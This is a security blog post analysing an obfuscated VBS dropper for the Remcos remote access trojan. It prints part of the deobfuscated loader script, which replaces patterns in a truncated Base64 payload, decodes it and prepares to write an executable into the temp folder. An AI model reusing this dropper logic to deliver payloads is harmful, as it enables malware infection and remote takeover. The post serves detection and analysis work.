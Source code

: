 Remcos is a Remote Access Trojan (RAT) widely used by attackers to gain full control over compromised systems as discussed previously. Its capabilities include keylogging, credential theft, and remote surveillance, making it a powerful tool in cyberattacks. To evade detection, Remcos is often deployed with obfuscation techniques, particularly when delivered as Visual Basic Script (VBS) files. These techniques make it fully undetectable (FUD) for the purpose to bypasss security tools such as EDR or antivirus in place.

In this blog post, the analysis of an obfuscated VBS sample of Remcos malware is presented. The sample was identified through a custom YARA rule designed to detect suspicious behaviour. The post explores the obfuscation techniques used to conceal the malicious code, with a focus on decoding Base64 strings, reverse engineering pattern-replacement mappings, and understanding how the malware leverages fake digital signatures like AnyDesk to evade detection. Through this detailed analysis, readers will gain insight into how Remcos operates in its obfuscated VBS form, offering a guide for researchers and security analysts on how to approach the detection and mitigation of such threats.



# Analysis of the Malicious VBS

This section provides a detailed analysis of the malicious VBS script associated with Remcos malware. The following script demonstrates the logic used for processing Base64-encoded data, which is a common technique employed in malware to hide its payload.

## Script Breakdown:

```vbs

Dim encodedBase64String
encodedBase64String = "));;;qQ@@@@M@@@@@@@@E@@@@@@@@//8@@@@Lg@@@@@@@@@@@@@@@@@@Q@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@g@@@@@@@@@@4fug4@@t@@nNIbg...))M0h;;;Ghpcy...wcm9ncmFtIGNhbm5vdC...iZS...ydW4gaW4gRE9))IG1vZGUuDQ0K&&&@@@@@@@@@@@@@@@@@@...QRQ@@@@ZIYD@@KPK6GY@@@@@@@@@@@@@@@@@@@@P@@@@Lg@@L@@j@@@@@@&&&oH@@@@D4...w@@@@@@@@@@@@@@@@@@@@@@@@@@g@@@@@@@@@@E@@@@@@@@@@@@@@@@@@g@@@@@@@@@@g@@@@...@@@@@@@@@@@@@@@@@@@@E@@@@@@@@@@@@@@@@@@@@...@@C@@@@@@@@g@@@@@@@@@@@@@@@@I@@YIU@@@@E@@@@@@@@@@@@@@@@...@@@@@@@@@@@@@@@@@@@@@@@@Q@@@@@@@@@@@@@@@@I@@@@@@@@@@@@@@@@@@@@@@@@@@@@Q@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@Dg...wCoXQ@@@@@@@@@@@@@@@@@@@@@@@@...om@@g@@SFE@@@@@@@@@@@@@@@@@@@@@@@@@@YHEH@@...w@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@gg@@@@...I@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@udG;;;4d@@@@@@@@ECY...w@@@@I@@@@@@@@&&&oH@@@@@@C@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@g@@@@...gLn&&&"

If Len(encodedBase64String) = 0 Then
    WScript.Quit
End If

' Main execution function
Sub Main()
    ' Replace patterns in the Base64 string
    Dim processedBase64String
    processedBase64String = ReplacePatterns(encodedBase64String)
    
    ' Decode the Base64 string into binary data
    Dim binaryData
    binaryData = DecodeBase64(processedBase64String)
    
    ' Check if decoding was successful
    If IsEmpty(binaryData) Then
        LogError "Base64 decoding failed. Exiting."
        WScript.Quit
    End If
    
    ' Determine the path for the temporary executable file
    Dim tempFolderPath, executableFilePath
    tempFolderPath = GetTemporaryFolderPath()
    executableFilePath = tempFolderPath & "\.exe"
```